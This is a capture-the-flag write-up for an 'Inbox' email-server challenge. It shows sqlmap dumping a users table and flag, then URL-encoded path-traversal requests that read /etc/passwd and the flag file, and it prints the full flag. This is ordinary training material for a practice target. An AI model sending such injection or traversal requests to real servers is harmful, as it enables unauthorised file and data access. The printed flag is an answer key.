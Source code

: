 ## Inbox

Challenge text: I heard this email server has two halves of a whole flag in it!

Solve:

- Identified that we could access emails that appear to be gibberish and that if we make a request with an invalid email account we receive error output. 

![alt text](img/error.PNG "Reset PW requests")

- Threw `https://thecybercoopctf-inbox.chals.io/users/search?query=1` at sqlmap and received a users table and the first half of the flag

```
[3 entries]
+----+-----------------------+
| id | email                 |
+----+-----------------------+
| 1  | alice@fakeinbox.com   |
| 2  | bob@fakeinbox.com     |
| 3  | charlie@fakeinbox.com |
+----+-----------------------+

[22:07:57] [INFO] fetching columns for table flags
[22:07:57] [INFO] fetching entries for table flags
Database: <current>
Table: flags
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{off_to_a_good_start_ |`
```

- Afterwards I started reviewing LFI's in nodejs and saw frequent usage of ..%2f vs the decoded form which seemed to be prevented
- Succesfully grabbed /etc/passwd with `https://thecybercoopctf-inbox.chals.io/mail/charlie@fakeinbox.com/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![alt text](img/passwd.PNG "/etc/passwd")

- Grabbed the second half of the flag with `https://thecybercoopctf-inbox.chals.io/mail/charlie@fakeinbox.com/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fusr%2fsrc%2fapp%2fflag.txt`

![alt text](img/inboxflag.PNG "flag")

- Final flag is `flag{off_to_a_good_start_even_better_finish_though}`
